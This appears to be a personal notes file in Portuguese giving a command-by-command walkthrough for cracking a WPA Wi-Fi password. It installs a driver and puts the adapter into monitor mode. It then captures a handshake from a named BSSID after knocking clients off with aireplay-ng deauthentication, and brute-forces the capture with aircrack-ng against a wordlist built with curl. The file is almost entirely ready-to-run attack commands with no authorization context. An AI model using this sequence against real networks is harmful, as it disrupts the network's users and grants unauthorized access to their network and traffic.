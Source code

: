 git clone https://github.com/aircrack-ng/rtl8188eus

cd rtl8188eus

sudo -i

echo "blacklist r8188eu" to  "/etc/modprobe.d/realtek.conf"

exit

sudo make

sudo make install

sudo modprobe 8188eu

iwconfig

---

sudo ifconfig wlan0 down
sudo airmon-ng check kill
sudo iwconfig wlan0 mode monitor

sudo ifconfig wlan0 up
iwconfig
---
---
- pegando o bssid

sudo airodump-ng wlan0

- aqui deve ser pego o bssid e o ch (channel)

---
- verificando apenas a rede

sudo airodump-ng wlan0 -d 8C:44:4F:6E:85:02

---
- no primeiro terimnal

sudo airodump-ng -w hack1 -c 1 -d 8C:44:4F:6E:85:02
  - ou
sudo airodump-ng -w hack1 -c 1 --bssid 8C:44:4F:6E:85:02

- -w é o nome do arquivo
- -c é o ch (channel)
- -d bssid

- no segundo terminal

sudo aireplay-ng --deauth 0 -a 8C:44:4F:6E:85:02 wlan0

- entao volte no primero terminal e la deve ter adicionado algo no fim da primeira linha
- assim podemos parar o segundo terminal (Ctrl + C)
- caso nao apareca, tente conectar na rede
- assim no primeiro terminal, no fim da linha, deve ter algo como <WPA handshake> bssid>

---
- agora opdemos usar o wireshark no nosso arquivo hack1.cap
wireshark hack1.cap
---

- agora colocaremos o wlan0 em modo managed
sudo airmon-ng stop wlan0
  - ou
sudo iwconfig wlan mode managed

---

aircrack-ng hack1.cap -w /home/kali/Descktop/wordlist.txt


---

- https://www.youtube.com/watch?v=WfYxrLaqlN8
- https://www.youtube.com/watch?v=tYnjMiTTdms

---

curl "https://github.com/santosfabin/WP2/blob/main/README.md" | sed 's/[^a-zA-Z]/ /g' | tr 'A-Z ' 'a-z\n' | grep '[a-z]' | sort -u > /tmp/wordlist.txt
